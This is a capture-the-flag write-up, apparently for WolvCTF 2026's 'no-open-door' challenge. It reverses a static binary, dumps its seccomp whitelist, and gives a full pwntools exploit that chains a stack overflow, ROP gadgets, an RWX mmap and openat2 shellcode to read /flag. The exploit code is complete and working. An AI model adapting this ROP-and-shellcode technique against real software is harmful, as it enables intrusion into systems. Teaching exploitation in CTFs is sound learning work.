




> AI disclosure: LLMs were **not** used to solve this challenge. However I've used grammarly to spell-check this writeup

# TL;DR

relatively easy and fast challenge where we have to read the flag using
`rop-chain` while evading `seccomp` filters.

# Ready? Set. Start!

we're given only 1 file - `no-open-door`. As always, I decided to check active
mitigations using `checksec`:



pretty standard case, I'd say. if you don't know (or forgot):

- **Partial RelRO** flags many sections as `read-only`. However, we can still write into `.got.plt`!
- **Canary** adds a randomly generated *cookie* to the stack before the return address, and checks it before `ret`. Thus, ensuring that the stack wasn't overflowed.
- **NX** marks the stack as `non-executable` (without **NX** - `rwx`, with **NX** - `rw-`)
- Absence of **PIE** indicates that the base address is static, which means that we know the addresses of the program's functions.

I can't guess what the concept will be, but I suspect that **PIE** is
disabled on purpose.

# Reverse

to get a full picture, we need to reverse the binary:

I started with `main`:

```c
00401a2d    int64_t main()
00401a4e        _IO_setvbuf(stdout, 0, 2, 0)
00401a58        _IO_puts("sandbox rental unit. no exec, no open.")
00401a5d        install_filter()
00401a7e        void buf
00401a7e
00401a7e        if (read_full(fd: 0, &buf, len: 0x200) == 0x200)
00401a87            return 0
00401a87
00401a80        return 1
```

as you can see, it disables `stdout` buffering, installs some kind of filters,
and reads input into `buf` using `read_full.

I decided to check the stack to spot possible overflow:

```c
entry -0x48  void buf
entry -0x48  ?? ?? ?? ?? ?? ?? ?? ??
entry -0x40  ?? ?? ?? ?? ?? ?? ?? ??
entry -0x38  ?? ?? ?? ?? ?? ?? ?? ??
entry -0x30  ?? ?? ?? ?? ?? ?? ?? ??
entry -0x28  ?? ?? ?? ?? ?? ?? ?? ??
entry -0x20  ?? ?? ?? ?? ?? ?? ?? ??
entry -0x18  ?? ?? ?? ?? ?? ?? ?? ??
entry -0x10  ?? ?? ?? ?? ?? ?? ?? ??
entry  -0x8  int64_t __saved_rbp
entry        void* const __return_addr
```

yep, it is a `BoF`! we can write up to `0x200` bytes into a buffer, which is just
`0x48` bytes close to the return address.

however, we still need to check `read_full` just in case:

```c
004016f5    int64_t read_full(int32_t fd, void* buf, int64_t len)
00401708        int64_t result = 0
00401708
00401759        while (true)
00401759            if (result u>= len)
0040175b                return result
0040175b
00401730            int64_t read_len = __libc_read(fd, buf + result, len - result)
00401730
0040173e            if (read_len s<= 0)
0040173e                break
0040173e
0040174d            result += read_len
0040174d
00401740        return -1
```

well... it just **forces** us to write `0x200` bytes, so in some sense we cannot
avoid stack overflow here.

by the way, here I noticed that there's no **canary**! neither `main` nor `read_full`
places a random value on the stack or checks it! so we can overflow the stack without
any worry that canary'll ruin our day.

> I found out later that there IS in fact a **canary** in the binary, but it's
> in the `libc`'s code (have I mentioned that this is a static binary?)

we just need to analyse the last function - `install_filter`:

```c
00401771    int64_t install_filter()
0040177c        int16_t var_c8 = 0x20
00401785        char var_c6 = 0
........        ...............
004019bf        int16_t var_d8 = 0x17
004019cf        int16_t* var_d0 = &var_c8
004019f5        int32_t rax_1
004019f5        uint64_t rcx
004019f5        rax_1, rcx = __prctl(0x26, 1, 0, 0, 0)
004019f5
004019fc        if (rax_1 s>= 0)
00401a17            int32_t result = __prctl(0x16, 2, &var_d8, rcx, 0)
00401a17
00401a1e            if (result s>= 0)
00401a2c                return result
00401a2c
00401a25        _Exit(1)
00401a25        noreturn
```

this function turned out to be **gigantic** because of a lot of strange vars assignments.
I cut out a lot of pseudocode so that only the necessary one is left.

and this is an installation of a `seccomp` filter! fortunately there's a program
that allows us to easily analyse it - [seccomp-tools](https://github.com/david942j/seccomp-tools).

> **seccomp** is basically a whitelist of system calls that a program can execute. [click me for more info!](https://devsecopsschool.com/blog/seccomp/)

`seccomp-tools dump ./no-open-door`:



as you can see, only `read`, `write`, `openat2`, `mmap`,
`exit_group`, `brk`, `rt_sigreturn`, `close`, and `lseek` syscalls are allowed.

> spoiler: we'll need only `read`, `write`, `openat2`, and `mmap`.

now the picture is clear! we need to open and read `/flag` using `openat2` via
the `rop-chain`.

# Exploit

I started with a simple template:

```py
from pwn import *

context.arch='amd64'
context.terminal = ['zellij', 'action', 'new-pane', '-d', 'right', '--']
context.log_level='debug'

p = process('./no-open-door')
# p = gdb.debug('./no-open-door', aslr=True, gdbscript='b main')

rop = b'asdasdasdasdasd'

p.sendafter(b'sandbox rental unit. no exec, no open.', b'\x41'*0x48 + rop + b'\x41'*(0x200-0x48-len(rop)))
p.interactive()
```

but before I started building that chain, I thought a bit, and came to the
conclusion that it would be hard to do it in just a `rop-chain`, so instead
I decided to only allocate some memory using `mmap` in the chain, and write
shellcode in them that will open the file using `openat2` and write its content
into `stdout`. I'll show the exact steps later.

but before doing that, I need to get the raw values for our `mmap` and `openat2`
syscalls. I'll get them with the `C` script below.

you can find more info [here (openat2)](https://manpages.debian.org/unstable/manpages-dev/openat2.2.en.html) and [here (mmap)](https://manpages.debian.org/unstable/manpages-dev/mmap.2.en.html).

in the script below, for `openat2` I put `AT_FDCWD` into `dirfd` just in case.
as I understand it should work perfectly even without it because we're providing
the **absolute path** - `/flag`. also I set `O_RDONLY`.

for `mmap`, I decided to allocate `0x10000` bytes at `0x10000` for my convenience.
for protection, I chose `rwx` for reasons I hope I don't need to explain. I also
added `MAP_PRIVATE` and `MAP_ANONYMOUS` flags to indicate that "mapping is not
backed by any file" (as a side effect, `mmap` will ignore the `fd` argument,
remember that). oh, and also `offset` is zero.

here's that `C` script I mentioned earlier:

```c
#include <fcntl.h>
#include <linux/openat2.h>
#include <sys/mman.h>
#include <sys/syscall.h>
#include <unistd.h>
#include <stdio.h>

int main() {
  struct open_how how = {0};
  how.flags = O_RDONLY;
  int len = syscall(
    SYS_openat2,
    AT_FDCWD,
    "/flag",
    &how,
    sizeof(how)
  );

  printf("OPENAT2:\n");
  printf("RAX          = 0x%x\n", SYS_openat2);
  printf("RDI          = 0x%x\n", AT_FDCWD);
  printf("RSI          = &\"/flag\"\n");
  printf("*RDX.flags   = 0x%llx\n", how.flags);
  printf("*RDX.mode    = 0x%llx\n", how.mode);
  printf("*RDX.resolve = 0x%llx\n", how.resolve);
  printf("R10          = 0x%zx\n\n", sizeof(how));

  void* buf = mmap(
    (void *)0x10000,
    0x10000,
    PROT_EXEC | PROT_READ | PROT_WRITE, /* rwx */
    MAP_PRIVATE | MAP_ANONYMOUS,
    -1,
    0
  );

  printf("MMAP:\n");
  printf("RAX = 0x%x\n", SYS_mmap);
  printf("RDI = 0x%x\n", 0x10000);
  printf("RSI = 0x%x\n", 0x10000);
  printf("RDX = 0x%x\n", PROT_EXEC | PROT_READ | PROT_WRITE);
  printf("R10 = 0x%x\n", MAP_PRIVATE | MAP_ANONYMOUS);
  printf("R8  = 0x%x\n", -1); /* we can ignore this */
  printf("R9  = 0x%x\n", 0);
}
```

after compilation (`gcc test.c -o test`) and execution, I got this:

```plain
OPENAT2:
RAX          = 0x1b5
RDI          = 0xffffff9c
RSI          = &"/flag"
*RDX.flags   = 0x0
*RDX.mode    = 0x0
*RDX.resolve = 0x0
R10          = 0x18

MMAP:
RAX = 0x9
RDI = 0x10000
RSI = 0x10000
RDX = 0x7
R10 = 0x22
R8  = 0xffffffff
R9  = 0x0
```

now, when we have the value, we need to find `rop gadgets` to set the registers.

remember that we can ignore `fd` in mmap? I mentioned that it's really great. that's
because we actually can't change the `r8` register because we don't have any
gadget for that.

that's all I've got:

```py
POP_RAX     = 0x0000000000448167 # pop rax ; retn
POP_RDI     = 0x000000000040212f # pop rdi ; retn
POP_RSI     = 0x000000000040a13e # pop rsi ; retn
POP_RDX     = 0x0000000000401766 # pop rdx ; retn
POP_R10     = 0x0000000000401765 # pop r10 ; retn
SYSCALL     = 0x0000000000414b36 # syscall ; retn
```

we also need a gadget to zero `r9`, and I was able to find it! here it is:

```py
LONG_POP_R9 = 0x00000000004632c3 # mov r9, rax ; pop r12 ; pop r13 ; mov rax, r9 ; pop r14 ; retn
```

to set `r9` to zero, we first need to set `rax` to zero. gladly, `rax` is zero
by the time our `rop-chain` executes! so we don't need to add an additional `POP_RAX`
gadget.



next, I wrote the actual chain. I won't dive into it because it isn't hard and you
already have all the gadgets and values. (hope I also don't need to explain `read`)

```py
from pwn import *

context.arch='amd64'
context.terminal = ['zellij', 'action', 'new-pane', '-d', 'right', '--']
context.log_level='debug'

p = process('./no-open-door')
# p = gdb.debug('./no-open-door', aslr=True, gdbscript='b main')

POP_RAX     = 0x0000000000448167 # pop rax ; retn
POP_RDI     = 0x000000000040212f # pop rdi ; retn
POP_RSI     = 0x000000000040a13e # pop rsi ; retn
POP_RDX     = 0x0000000000401766 # pop rdx ; retn
POP_R10     = 0x0000000000401765 # pop r10 ; retn
SYSCALL     = 0x0000000000414b36 # syscall ; retn
LONG_POP_R9 = 0x00000000004632c3 # mov r9, rax ; pop r12 ; pop r13 ; mov rax, r9 ; pop r14 ; retn

# mmap(0x10000, 0x10000, 0x7, 0x22, ???, 0x0)
# RAX = 0x9
# RDI = 0x10000
# RSI = 0x10000
# RDX = 0x7
# R10 = 0x22
# R8  = 0xffffffff # can ignore it
# R9  = 0x0
rop =  p64(LONG_POP_R9) # r9 = 0
rop += p64(0) + p64(0) + p64(0) # r12, r13, r14
rop += p64(POP_RDI)
rop += p64(0x10000) # address = 0x10000
rop += p64(POP_RSI)
rop += p64(0x10000) # size = 0x10000
rop += p64(POP_RDX)
rop += p64(0x7) # rwx
rop += p64(POP_R10)
rop += p64(0x22) # some flags
rop += p64(POP_RAX)
rop += p64(0x9) # sys_mmap
rop += p64(SYSCALL)

# read(0, 0x10000, 0x10000)
rop += p64(POP_RDI)
rop += p64(0) # fd = 0
rop += p64(POP_RSI)
rop += p64(0x10000) # addr = 0x10000
rop += p64(POP_RDX)
rop += p64(0x10000) # len = 0x10000
rop += p64(POP_RAX)
rop += p64(0) # sys_read
rop += p64(SYSCALL)

# jump on our shellcode
rop += p64(0x10000)

p.sendafter(b'sandbox rental unit. no exec, no open.', b'\x41'*0x48 + rop + b'\x41'*(0x200-0x48-len(rop)))
p.interactive()
```

and the final step: write the shellcode that'll open `/flag` and print it:

```py
# RAX         = 0x1b5
# RDI         = 0xffffff9c
# RSI         = &"/flag"
# &RDX.flags   = 0x0
# &RDX.mode    = 0x0
# &RDX.resolve = 0x0
# R10         = 0x18
shellcode =  shellcraft.pushstr('/flag')
shellcode += shellcraft.syscall('SYS_openat2', 0xffffff9c, 'rsp', 0x1f000, 0x18) # open /flag
shellcode += shellcraft.syscall('SYS_read', 'rax', 0x1f000, 0x1000) # read 0x1000 bytes in 0x1f000
shellcode += shellcraft.syscall('SYS_write', 1, 0x1f000, 0x1000) # write out 0x1000 from 0x1f000 to stdout
```

> `0x1f000` points to zeroed space, so we can use it as a `*how` argument for
`openat2` and a buffer for `read`.

and now putting everything together:

```py
from pwn import *

context.arch='amd64'
context.terminal = ['zellij', 'action', 'new-pane', '-d', 'right', '--']
context.log_level='debug'

p = remote('no-open-door.wolvctf-2026.kctf.cloud', 1337)
# p = process('./no-open-door')
# p = gdb.debug('./no-open-door', aslr=True, gdbscript='b *main+96')

POP_RAX     = 0x0000000000448167 # pop rax ; retn
POP_RDI     = 0x000000000040212f # pop rdi ; retn
POP_RSI     = 0x000000000040a13e # pop rsi ; retn
POP_RDX     = 0x0000000000401766 # pop rdx ; retn
POP_R10     = 0x0000000000401765 # pop r10 ; retn
SYSCALL     = 0x0000000000414b36 # syscall ; retn
LONG_POP_R9 = 0x00000000004632c3 # mov r9, rax ; pop r12 ; pop r13 ; mov rax, r9 ; pop r14 ; retn

# mmap(0x10000, 0x10000, 0x7, 0x22, ???, 0x0)
# RAX = 0x9
# RDI = 0x10000
# RSI = 0x10000
# RDX = 0x7
# R10 = 0x22
# R8  = 0xffffffff # can ignore it
# R9  = 0x0
rop =  p64(LONG_POP_R9) # r9 = 0
rop += p64(0) + p64(0) + p64(0) # r12, r13, r14
rop += p64(POP_RDI)
rop += p64(0x10000) # address = 0x10000
rop += p64(POP_RSI)
rop += p64(0x10000) # size = 0x10000
rop += p64(POP_RDX)
rop += p64(0x7) # rwx
rop += p64(POP_R10)
rop += p64(0x22) # some flags
rop += p64(POP_RAX)
rop += p64(0x9) # sys_mmap
rop += p64(SYSCALL)

# read(0, 0x10000, 0x10000)
rop += p64(POP_RDI)
rop += p64(0) # fd = 0
rop += p64(POP_RSI)
rop += p64(0x10000) # addr = 0x10000
rop += p64(POP_RDX)
rop += p64(0x10000) # len = 0x10000
rop += p64(POP_RAX)
rop += p64(0) # sys_read
rop += p64(SYSCALL)

# jump on our shellcode
rop += p64(0x10000)

# RAX         = 0x1b5
# RDI         = 0xffffff9c
# RSI         = &"/flag"
# &RDX.flags   = 0x0
# &RDX.mode    = 0x0
# &RDX.resolve = 0x0
# R10         = 0x18
shellcode =  shellcraft.pushstr('/flag')
shellcode += shellcraft.syscall('SYS_openat2', 0xffffff9c, 'rsp', 0x1f000, 0x18) # open /flag
shellcode += shellcraft.syscall('SYS_read', 'rax', 0x1f000, 0x1000) # read 0x1000 bytes in 0x1f000
shellcode += shellcraft.syscall('SYS_write', 1, 0x1f000, 0x1000) # write out 0x1000 from 0x1f000 to stdout

p.sendafter(b'sandbox rental unit. no exec, no open.', b'\x41'*0x48 + rop + b'\x41'*(0x200-0x48-len(rop)))
p.send(bytes(asm(shellcode)))
p.interactive()
```


